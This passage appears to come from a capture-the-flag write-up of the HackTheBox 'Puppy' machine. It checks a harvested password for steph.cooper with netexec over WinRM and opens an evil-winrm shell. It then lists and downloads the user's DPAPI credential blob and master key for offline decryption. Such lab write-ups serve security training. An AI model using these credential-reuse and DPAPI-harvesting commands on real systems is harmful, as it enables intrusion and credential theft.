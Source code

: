 - Username: `steph.cooper`
- Password: `[REDACTED]`

### Third Privilege Escalation: Access as steph.cooper

Let's verify these credentials:

```shell
┌───(root㉿kali)-[/home/kali/HTB/Puppy]
└─$ netexec winrm puppy.htb -u 'steph.cooper' -p '[REDACTED]'
WINRM    10.10.11.70     5985    DC      [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
WINRM    10.10.11.70     5985    DC      [+] PUPPY.HTB\steph.cooper:[REDACTED] (Pwn3d!)
```
Great!
Now let's connect with `Evil-WinRM`:
```shell
┌───(root㉿kali)-[/home/kali/HTB/Puppy]
└─$ evil-winrm -i puppy.htb -u 'steph.cooper' -p '[REDACTED]'
```

### DPAPI Credential Harvesting
After connecting as steph.cooper, I'll look for stored credentials. In Windows, credentials are often protected using DPAPI.

```shell
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> dir C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\
Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials

Mode    LastWriteTime    Length    Name
----    -------------    ------    ----
-a-hs-    3/8/2025 7:54 AM    414    C8D69EBE9A43E9DEBF6B5FBD48B521B9
```
We also need the DPAPI master key:

```shell
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> dir C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\
Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107

Mode    LastWriteTime    Length    Name
----    -------------    ------    ----
-a-hs-    3/8/2025 7:40 AM    740    556a2412-1275-4ccf-b721-e6a0b4f90407
-a-hs-    2/23/2025 2:36 PM    24    Preferred
```

Now let's download these files for offline decryption:
```shell
download "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9"
```

```shell
download "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407"
```
